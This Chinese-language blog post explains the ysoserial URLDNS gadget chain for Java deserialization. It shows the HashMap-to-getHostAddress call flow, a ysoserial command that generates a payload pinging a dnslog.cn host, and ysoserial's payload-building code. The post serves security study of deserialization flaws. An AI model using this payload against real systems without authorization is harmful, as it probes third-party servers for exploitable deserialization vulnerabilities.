




Urldns
- date
- 2023-09-10 12:08:13
介绍
URLDNS 是 ysoserial 中一个利用链的名字，它适合检测反序列化漏洞是否存在，优点如下：
- 使用 Java 内置类构造，对第三方库没有依赖
- 在目标没有回显的时候，能够通过 DNS 请求得知是否存在反序列化漏洞
流程
该利用链调用流程如下：
HashMap.readObject() => HashMap.putVal() => HashMap.hash()URL.hashCode() => URLStreamHandler.hashCode() => getHostAddress()
入口类 HashMap 重写了 readObject() 方法，在该方法中，最终调用了 HashMap.hash() 方法，该方法会调用 getHostAddress() 方法进行 DNS 请求。
调试
先使用 ysoserial 生成 payload，然后创建一个反序列化入口去调试：
| java -jar ysoserial-all.jar URLDNS http://zdvh1d.dnslog.cn > URLDNS.bin
|
| public class DeserializeDemo {
public static void unSerialize(String filename){
try {
FileInputStream fileIn = new FileInputStream(filename);
ObjectInputStream in = new ObjectInputStream(fileIn);
Person person = (Person) in.readObject();
in.close();
fileIn.close();
} catch (IOException e) {
e.printStackTrace();
} catch (ClassNotFoundException e) {
e.printStackTrace();
}
}
public static void main(String[] args) {
unSerialize("URLDNS.bin");
}
}
|
调用 hash()：

hash() 调用 URL 实例的 hashCode()：

hashCode 为 -1，调用 URLStreamHandler.hashCode() 方法：

URLStreamHandler.hashCode() 中调用了 getHostAddress() 获取地址，这其实就是进行了一次 DNS 请求：

ysoserial
看一下 ysoserial 中 URLDNS 的 Payload 生成：
| public Object getObject(final String url) throws Exception {
URLStreamHandler handler = new SilentURLStreamHandler();
HashMap ht = new HashMap();
URL u = new URL(null, url, handler);
ht.put(u, url);
Reflections.setFieldValue(u, "hashCode", -1);
return ht;
}
|
这里其实就创建一个 URL 实例，作为 key 添加到 HashMap 中，然后设置 hashCode 为 -1，从而可以调用 URLStreamHandler.hashCode() 方法。
ysoserial 是重写了一下 URLStreamHandler：
| static class SilentURLStreamHandler extends URLStreamHandler {
protected URLConnection openConnection(URL u) throws IOException {
return null;
}
protected synchronized InetAddress getHostAddress(URL u) {
return null;
}
}
|
因为 put() 方法实际还是调用了 hash() 方法，那么就会又调用一次 getHostAddress() 进行 dns 请求，那么就在生成 payload 就会发起了 dns ，上面重写 URLStreamHandler 中的 getHostAddress() ，使其返回为空，那么在生成 payload 时不会发起 dns 请求了。
| public V put(K key, V value) {
return putVal(hash(key), key, value, false, true);
}
|
{kind=link}
{kind=link}
{kind=link}
{kind=link}